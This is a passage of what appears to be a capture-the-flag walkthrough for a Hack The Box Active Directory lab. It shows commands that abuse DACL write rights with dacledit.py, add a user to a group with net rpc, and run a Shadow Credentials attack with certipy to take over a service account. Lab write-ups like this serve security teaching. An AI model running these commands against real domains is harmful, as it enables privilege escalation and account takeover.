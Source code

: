 <br>

https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

<br><br>

First we have to make some changes in the domain before we can perform the attack. We can simply follow BloodHound instructions:

	1. Grant judith the AddMember privilege on the group
	2. Effectively make judith add herself to the group

<br><br>

Edit the DACL with dacledit.py to grant judith the _AddMember_ privilege:

<br>

	$ dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09

<br>

![Pasted image 20241106013432](https://github.com/user-attachments/assets/00b7ab95-7705-4898-9b2b-98906bcecd67)

<br><br>

Using net rpc to add judith itself to 'management' group and then check if everything went well by listing group's users:

<br>

	$ net rpc group addmem "management" "judith.mader" -U "CERTIFIED.HTB"/"judith.mader"%"judith09" -S "certified"

<br>

Check if we succeded:

<br>

	$ net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified"

<br>
 
![Pasted image 20241106013509](https://github.com/user-attachments/assets/3bf87dfc-7fa3-40e0-851e-639626fdd12a)

<br><br>

We did. Now that we can write to management_svc attributes, we can do some interesting things like make the user *kerberoastable*, and use *pywhisker* or *certipy* to perform *Shadow Credentials attack* and retrieve the user's hash. Certipy looks a lot easier, so let's try with that one first.

<br>

    $ certipy shadow auto -username judith.mader@certified.htb -p judith09 -account management_svc

<br>

![Pasted image 20241109163017](https://github.com/user-attachments/assets/35362d9a-eccc-4552-aeb2-2426fe919ebd)
